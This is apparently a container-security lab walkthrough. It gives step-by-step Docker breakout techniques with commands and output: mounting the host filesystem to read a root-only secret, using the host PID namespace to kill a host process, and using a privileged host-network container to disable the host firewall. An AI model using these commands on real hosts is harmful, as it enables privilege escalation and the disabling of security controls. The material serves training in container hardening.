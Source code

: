 ## Container Breakout - Multiple Attacks

### Volume Mounts

* ssh into the container virtual lab or open Terminal in the VM

    ```
    ssh root@<IPAddrGivenToYou>
    password: <passwordGivenToYou>

    ```

* Run `whoami` to confirm that you are the `root` user.

```commandline
root@we45:~# whoami
root
root@we45:~#
```

* Validate that there's a secrets file in the root dir with `cat secret.txt`

* Run `sudo su we45` to login as a normal user.

    ```commandline
    root@we45:~# sudo su we45
    we45@we45:~$
    ```

* Check if the user `we45` has access to `docker` by running `docker images` and `docker ps`

    ```commandline
    we45@we45:~$ docker images
    we45@we45:~$ docker ps
    ```

* Run `cat /root/secret.txt` read the content of `secret.txt` file that was created by `root` user.

```commandline
we45@we45:~$ cat /root/secret.txt
cat: /root/secret.txt: Permission denied
```

* Run `docker run -ti --rm -v /root:/hostFS/ alpine sh` as `we45`(non-root user)

```commandline
we45@we45:~$ docker run -ti -v /:/hostFS/ alpine
/ #
```

* Run `cat /hostFS/secret.txt` to view the content of the file.

```commandline
/hostFS/root # cat secret.txt
This is a secret
```

* Run `exit` to exit from the container.

```commandline
/hostFS/root # exit
we45@we45:~$
```


* Run `clean-docker` to stop all the containers

```commandline
root@we45:~$ clean-docker
```

### PID Boundary

* Run `tmux` to create a multiplexed terminal. Your screen should have a band below that looks like this:

![](img/tmux-greenband.png)

* Now, type `ctrl + b + "` to split panes horizontally. We're going to operate on two panes

![](img/split_pane.png)

* Let's first operate on the top pane, with the command `ctrl + b + (upper arrow key)`
* Now, run our program `./root/super_important_process.sh`. It should start running a "super important" process
* Let's operate on the lower pane with `ctrl + b + (lower arrow key)`
* Here, run `docker run -ti --pid=host alpine sh`
* Now run `ps aux` and look at the process tree. You will see that your container's processes and the host's processes have NOT been isolated
* Now run `ps aux | grep 'super'` to triangulate the super_important process. get the `pid` of the process
* now run `kill <pid>` and you will see that the super important process (running on host) is now terminated.

![](img/terminate_process.png)

* Let's dismantle the multiplexed terminal session, with `ctrl + b + x`, you will be presented with a prompt like this:

![](img/remove_tmux.png)

* press `y` to select `yes` and the window shuts down. Do the same with the other tmux session as well

### Host Network

* Check if `ufw` is enabled on the host machine by running `ufw status`

```commandline
root@we45:~# ufw status
Status: inactive
```

* Enable `ufw` by running `ufw enable` and `ufw allow ssh`

* Run `docker run -d -p 5000:5000 --privileged --net=host abhaybhargav/vul_flask`

```
docker run -d -p 5000:5000 --privileged --net=host abhaybhargav/vul_flask
WARNING: Published ports are discarded when using host network mode
de08041d12e0ed8f4aa0ee3ceeef65c760baee2b9d1c839a89d5ba642a506d03
```

* Now run `docker ps` and copy the `CONTAINER_ID` of the running container

```
[root@container-training-centos ~]# docker ps
CONTAINER ID        IMAGE                    COMMAND             CREATED             STATUS              PORTS               NAMES
de08041d12e0        abhaybhargav/vul_flask   "python app.py"     3 seconds ago       Up 2 seconds                            dreamy_ptolemy
```

* Now run `docker exec -it <container ID> /bin/bash` you should now be in the shell environment in the container

* Run `apt update && apt install -y ufw` to install the firewall program

* Run `ufw status` and you should see that the firewall is active.

* Now run `ufw disable` to disable the firewall from the Container

* Run `exit` to exit the docker shell and run `clean-docker`